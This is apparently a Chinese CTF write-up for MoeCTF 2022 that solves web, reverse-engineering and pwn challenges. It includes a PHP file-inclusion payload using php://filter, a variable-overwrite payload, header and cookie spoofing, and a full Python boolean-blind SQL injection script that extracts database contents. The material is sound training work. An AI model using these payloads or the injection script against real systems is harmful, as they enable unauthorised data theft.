



# MoeCTF 2022

## Web

### baby\_file

#### 题目

```php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
?>
```

#### 解题

这题是简单的文件包含，先用 dirsearch 扫描一下。

```bash
$ python dirsearch.py -u http://node2.anna.nssctf.cn:28169/
```

可以扫描到 `/flag.php` ，通过构造以下 Payload

```url
file=php://filter/read=convert.base64-encode/resource=flag.php
```

可以获得到 `flag.php` 的源码

```php
<?php
Hey hey, reach the highest city in the world! Actually I am ikun!!;
NSSCTF{b3333432-7dff-4ca8-b6f4-cd4bd5fc6688};
?>
```

### ezhtml

通过 `右键 - 查看网页源代码` 寻找答案没有结果，发现底下有个 `evil.js` ，访问该文件可以得到 flag 力！

### what are y0u uploading？

随便提交一个图片可以得到以下回显

```html
文件上传成功！filename：fea5445634569c851f2933f11259cc92.png
我不想要这个特洛伊文件，给我一个f1ag.php 我就给你flag!
```

通过修改 Request 中的 `filename` 为 `f1ag.php` 即可得到 flag 了。

<figure><figcaption></figcaption></figure>

### ezphp

先来分析源码\~

```php
<?php

highlight_file('source.txt');
echo "<br><br>";

$flag = 'xxxxxxxx';
$giveme = 'can can need flag!';
$getout = 'No! flag.Try again. Come on!';

// $_GET['flag'] 和 $_POST['flag'] 至少存在一个
if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($giveme);
}

// $_GET['flag'] 和 $_POST['flag'] 至少一个值为 flag
if($_POST['flag'] === 'flag' || $_GET['flag'] === 'flag'){
    exit($getout);
}

//将 value 的值赋给 $key
foreach ($_POST as $key => $value) {
    $$key = $value;
}

//将 $value 的值赋给 $key
foreach ($_GET as $key => $value) {
    $$key = $$value;
}

echo 'the flag is : ' . $flag;

?>
```

分析结束后，通过构造以下 Payload

```
test=flag&flag=test
```

就可以获得到 flag 了，原理是先将 test 的值复制 flag 的值，又因为必须存在一个 `$_GET['flag'] === 'flag'` ，因此将 flag 的值改为 test 的值就可以了。

### Sqlmap\_boy

查看网站源代码可以发现

```html
<!-- $sql = 'select username,password from users where username="'.$username.'" && password="'.$password.'";'; -->
```

通过访问 `http://node2.anna.nssctf.cn:28497/login.php` 回显

```json
{
	code: "0",
	message: "用户名或密码错误"
}
```

应该可以推断为布尔注入，通过编写以下代码

```python
import time
import requests

url = 'http://node2.anna.nssctf.cn:28497/login.php'
session = requests.Session()
def getDatabase():
    results = []
    for i in range(1000):
        print(f'{i}...')
        start = -1
        end = 255
        mid = -1
        while start < end:
            mid = (start + end) // 2
            params = {"username": f'admin" and (ascii(substr(database(),{i+1},1))>{mid})#'}
            ret = session.post(url, data=params)
            if '"code":"1"' in ret.text:
                start = mid + 1
            else:
                end = mid
            time.sleep(0.05)
        if mid == -1:
            break
        results.append(chr(start))
        print(''.join(results))
    return ''.join(results)

begin = time.time()
getDatabase()
print(f'time spend: {time.time() - begin}')
```

可以得到数据库名为 `moectf` ，通过修改上面代码中的变量 params 成如下内容

```python
params = {"username": f'admin" and (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema="moectf" limit 0,1),{i+1},1))>{mid})#'}
```

可以得到数据库表 `articles,flag,users` ，通过修改上面代码中的变量 params 成如下内容

```python
params = {"username": f'admin" and (ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema="moectf" and table_name="flag"),{i+1},1))>{mid})#'}
```

可以得到列名 `flAg` ，通过修改上面代码中的变量 params 成如下内容

```python
params = {"username": f'admin" and (ascii(substr((select flAg from flag limit 0, 1),{i+1},1))>{mid})#'}
```

就可以得到 flag 力！

### cookiehead

题目包含 cookie ，那就是 Cookies 里面一探究竟！

首先打开题目后到达第一关 `仅限本地访问` ，用 HackBar 添加 Header

```http
X-Forwarded-For: 127.0.0.1
```

之后提示 `请先登录` ，将 Cookies 修改成 `login=1` 即可。

最后一关 `You are not from http://127.0.0.1/index.php !` 则添加 Header

```http
Referer: http://127.0.0.1/index.php
```

就可以得到 flag 啦！

### God\_of\_aim

右键查看源代码可以得到提示

```html
<!-- 你知道吗？index.js实例化了一个aimTrainer对象-->
```

可以在 `aimtrainer.js` 文件中发现 `checkflag1()` 和 `checkflag2()` 函数，在 Console 输入 `_0x78bd` 可以得到回显

```js
['aimTrainerEl', 'aim-trainer', 'getElementById', 'scoreEl', 'score', 'aimscore', 'delay', 'targetSize', 'aimscoreEL', 'setScore', 'start', 'innerHTML', 'setAimScore', 'position', 'style', 'relative', 'timer', 'createTarget', 'checkflag1', 'checkflag2', 'stop', 'moectf{Oh_you_can_a1m_', '你已经学会瞄准了！试试看:', 'start2', 'and_H4ck_Javascript}', '']
```

就可以得到 flag `moectf{Oh_you_can_a1m_and_H4ck_Javascript}` 了！

## Reverse

### Reverse入门指北

flag 就在指北最底下，好耶，是指北！

### checkin

使用 IDA 打开后就可以发现 flag 力！

### Hex

使用 010 Editor 打开 `Hex.exe` 后搜索 `moectf` 可以发现 flag

<figure><figcaption></figcaption></figure>

### Base

使用 IDA 打开后对着 `main` F5 就可以发现 base64 加密内容

```
1wX/yRrA4RfR2wj72Qv52x3L5qa=
```

并且在 `main` 中还可以发现一个符号表

```
abcdefghijklmnopqrstuvwxyz0123456789+/ABCDEFGHIJKLMNOPQRSTUVWXYZ
```

通过 CyberChef 一把梭可以得到 flag `moectf{qwqbase_qwq}`

### begin

使用 IDA 打开后对着 `main` F5 就可以发现

```c
for ( i = 0; i < strlen(Str); ++i )
    Str[i] ^= 0x19u;
if ( !strcmp(Str, Str2) )
    puts("\nGood job!!! You know how to decode my flag by xor!");
else
    puts("\nQwQ. Something wrong. Please try again. >_<");
```

通过分析以上代码可以发现需要对每个字符与 `0x19` 进行异或运算，若和 `Str2` 比对完全一致则弹出正确，通过双击也可以发现 `Str2` 的内容。

<figure><figcaption></figcaption></figure>

整理内容可以得到一个数组

```python
arr = [0x74, 0x76, 0x7C, 0x7A, 0x6D, 0x7F, 0x62, 0x41, 0x29, 0x6B,
       0x46, 0x28, 0x6A, 0x46, 0x6A, 0x29, 0x46, 0x70, 0x77, 0x6D,
       0x2A, 0x6B, 0x2A, 0x6A, 0x6D, 0x70, 0x77, 0x7E, 0x38, 0x38,
       0x38, 0x38, 0x38, 0x64]
```

编写 Python 代码对数组内容进行异或运算并且转为字符就可以得到 flag 了。

```python
arr = [0x74, 0x76, 0x7C, 0x7A, 0x6D, 0x7F, 0x62, 0x41, 0x29, 0x6B,
       0x46, 0x28, 0x6A, 0x46, 0x6A, 0x29, 0x46, 0x70, 0x77, 0x6D,
       0x2A, 0x6B, 0x2A, 0x6A, 0x6D, 0x70, 0x77, 0x7E, 0x38, 0x38,
       0x38, 0x38, 0x38, 0x64]

flag = ''
for ch in arr:
    flag += chr(ch ^ 0x19)
print(flag)

# moectf{X0r_1s_s0_int3r3sting!!!!!}
```

## Pwn

### shell

```bash
$ nc node3.anna.nssctf.cn 28646
Welcome to PWN world!
In PWN, your goal is to get shell.
Here I'll give you the shell as a gift for our first meeting.
Have fun in the following trip!
cat flag
NSSCTF{765b5608-08aa-4876-b917-05a4129cf665}
```

##
